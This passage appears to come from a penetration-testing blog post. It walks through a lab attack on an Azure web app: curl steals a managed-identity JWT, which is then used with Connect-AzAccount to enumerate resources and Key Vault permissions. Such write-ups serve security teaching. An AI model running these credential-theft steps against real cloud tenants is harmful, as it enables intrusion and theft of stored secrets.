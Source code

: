 ```powershell
echo $MSI_ENDPOINT $IDENTITY_ENDPOINT
```
We now have everything we need to compromise the application’s Service Principal.

To do this, we simply need to run the following command on the underlying system:

```powershell
curl $MSI_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

This command sends an HTTP request to the ‘managed identities’ service and retrieves a [JWT](https://www.vaadata.com/blog/jwt-tokens-and-security-working-principles-and-use-cases/) associated with the application’s Service Principal.

We can then use this JWT and the privileges associated with the account to move laterally in the Azure infrastructure.

### Retrieving the secrets of the Key Vault

Let’s start by listing the resources accessible by our application’s Service Principal, using the following powershell code:

```powershell
# Connection with the compromise Web app account
$access_token = "<access_token_management>"
Connect-AzAccount -AccessToken $access_token -AccountId 02861316-6d42-4d55-b2f7-542af2fb9915
Get-AzResource
```

So we can see that we can access a Key Vault named ‘keyvaultvaadatalab1’.
A Key Vault is a service for centralising and storing passwords, connection strings, certificates, secret keys and so on. It also simplifies the management of application secrets and allows integration with other Azure services.

So it’s a safe bet that sensitive information is stored in this Key Vault. But having access to a resource does not mean that you can do everything with it. Azure (like other cloud services) offers a high level of granularity in terms of the permissions that can be given to one resource over another.

We therefore need to list the permissions we have on the Key Vault. This can be done using the following powershell code:

```powershell
$access_token = "<access_token_management>"
Connect-AzAccount -AccessToken $access_token -AccountId 02861316-6d42-4d55-b2f7-542af2fb9915
$KeyVault = Get-AzKeyVault
$Token = (Get-AzAccessToken).Token
$SubscriptionID = (Get-AzSubscription).Id
$ResourceGroupName = $KeyVault.ResourceGroupName
$KeyVaultName = $KeyVault.VaultName
$URI = "https://management.azure.com/subscriptions/$SubscriptionID/resourceGroups/$ResourceGroupName/providers/Microsoft.KeyVault/vaults/$KeyVaultName/providers/Microsoft.Authorization/permissions?api-version=2022-04-01"

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token"
    }
}

(Invoke-RestMethod @RequestParams).value
```
